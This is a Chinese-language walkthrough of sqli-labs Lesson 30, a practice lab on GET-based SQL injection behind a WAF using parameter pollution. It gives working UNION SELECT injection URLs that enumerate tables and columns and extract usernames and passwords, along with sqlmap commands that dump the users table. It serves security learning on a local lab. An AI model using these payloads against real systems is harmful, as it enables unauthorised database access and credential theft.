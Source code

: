 ```yaml
---
title: sqli-labs lession-30 GET基于盲注-阻抗不匹配-有WAF的web应用
date: 2018-10-14 16:31:10
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-30 GET基于盲注-阻抗不匹配-有WAF的web应用

---

## 登录界面

![001](/img/sql/Lesson-30/001.png)

## 分析

真正有WAF的页面是login.php,根据题目来做的话要把这行代码注释掉,不使用报错。

![002](/img/sql/Lesson-30/002.png)

过滤都和Lesson-29一样,只是这里用双引号闭合，需要把显示账号密码注释后的再改改弄的像Lesson-8才是布尔型盲注。

这里太麻烦了没弄。

## 手注

### 获取字段数

`http://192.168.75.133/sql/Less-30/login.php?id=1&id=2" order by 4%23`

![003](/img/sql/Lesson-30/003.png)

`http://192.168.75.133/sql/Less-30/login.php?id=1&id=2" order by 4%23`

![004](/img/sql/Lesson-30/004.png)

### 获取数据库

`http://192.168.75.133/sql/Less-30/login.php?id=1&id=-2"union select 1,2,3%23`

![005](/img/sql/Lesson-30/005.png)

`http://192.168.75.133/sql/Less-30/login.php?id=1&id=-2"union select 1,database(),3%23`

![006](/img/sql/Lesson-30/006.png)

### 获取表名

`http://192.168.75.133/sql/Less-30/login.php?id=1&id=-2"union select 1,(select group_concat(table_name)from information_schema.tables where table_schema='security'),3%23`

![007](/img/sql/Lesson-30/007.png)

### 获取列名

`http://192.168.75.133/sql/Less-30/login.php?id=1&id=-2"union select 1,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),3%23`

![008](/img/sql/Lesson-30/008.png)

### 获取字段

`http://192.168.75.133/sql/Less-30/login.php?id=1&id=-2"union select 1,(select group_concat(username,'~',password) from security.users),3%23`

![009](/img/sql/Lesson-30/009.png)

## SQLMAP

```
--technique B:检查布尔型注入
--dbms 10：后端数据库设置为mysql
--flush-session:刷新session
--fresh-queries:发起新查询
-v 2：显示测试过程
```

`sqlmap -u "http://192.168.75.133/sql/Less-30/login.php?id=1&id=2*" --technique B --dbms mysql --level 2 -v 2`

![010](/img/sql/Lesson-30/010.png)

![011](/img/sql/Lesson-30/011.png)

`sqlmap -u "http://192.168.75.133/sql/Less-30/login.php?id=1&id=2*" --technique B --dbms mysql --dbs --threads 10`

![012](/img/sql/Lesson-30/012.png)

`sqlmap -u "http://192.168.75.133/sql/Less-30/login.php?id=1&id=2*" --technique B mysql -D security --tables --threads 10`

![013](/img/sql/Lesson-30/013.png)

`sqlmap -u "http://192.168.75.133/sql/Less-30/login.php?id=1&id=2*" --technique B mysql -D security -T users --columns --dump --threads 10`

![014](/img/sql/Lesson-30/014.png)